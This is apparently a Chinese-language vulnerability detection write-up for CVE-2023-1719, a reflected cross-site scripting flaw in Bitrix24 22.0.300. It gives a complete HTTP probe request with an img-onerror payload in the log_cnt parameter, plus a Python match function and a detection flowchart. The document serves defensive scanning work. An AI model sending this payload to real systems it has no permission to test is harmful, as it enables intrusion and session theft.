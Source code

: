 # Bitrix24 22.0.300 XSS漏洞（CVE-2023-1719）检测说明

## 漏洞简介

Bitrix24 22.0.300 存在全局变量提取导致的跨站脚本（XSS）漏洞。攻击者可通过未初始化变量覆盖，注入恶意JavaScript代码，进而在受害者浏览器中执行任意脚本，甚至在特定条件下执行PHP代码。

## 影响范围

- 产品：Bitrix24
- 影响版本：22.0.300
- CVE编号：CVE-2023-1719
- 危害等级：Critical

## 漏洞原理

/bitrix/components/bitrix/socialnetwork.events_dyn/get_message_2.php接口未对log_cnt参数进行有效过滤，攻击者可注入恶意HTML标签和事件处理脚本，触发XSS。

## 利用方式与攻击流程

1. 攻击者构造带有XSS payload的GET请求，log_cnt参数注入`<img onerror=alert(document.domain) src=1>`。
2. 服务器端未对参数进行安全处理，直接插入到页面中。
3. 受害者访问该页面时，恶意脚本在其浏览器中执行。
4. 攻击者可窃取cookie、劫持会话等。

## 探测原理与流程

### 探测请求的构造

```http
GET /bitrix/components/bitrix/socialnetwork.events_dyn/get_message_2.php?log_cnt=<img%20onerror=alert(document.domain)%20src=1> HTTP/1.1
Host: target.com
```

- log_cnt参数注入了img标签和onerror事件。

### 预期响应与交互

- 响应体需包含`'LOG_CNT':`和`<img onerror=alert(document.domain) src=1>`。
- 响应头包含`text/html`。
- HTTP状态码为200。

### 判定逻辑

```python
def is_vulnerable(response):
    if response.status_code == 200 and "'LOG_CNT':" in response.text and '<img onerror=alert(document.domain) src=1>' in response.text and 'text/html' in response.headers.get('content-type', ''):
        return True
    return False
```

### 检测流程Mermaid图

```mermaid
graph TD
    A[发送带XSS payload的GET请求] --> B[接收HTTP响应]
    B --> C{响应体含LOG_CNT和img标签?}
    C -- 否 --> F[非漏洞]
    C -- 是 --> D{Content-Type为text/html且状态码为200?}
    D -- 否 --> F
    D -- 是 --> G[判定存在XSS漏洞]
```

## 参考链接

- [StarLabs安全通告](https://starlabs.sg/advisories/23/23-1719/)
- [NVD官方漏洞库](https://nvd.nist.gov/vuln/detail/CVE-2023-1719)
- [GitHub工具](https://github.com/20142995/sectool) 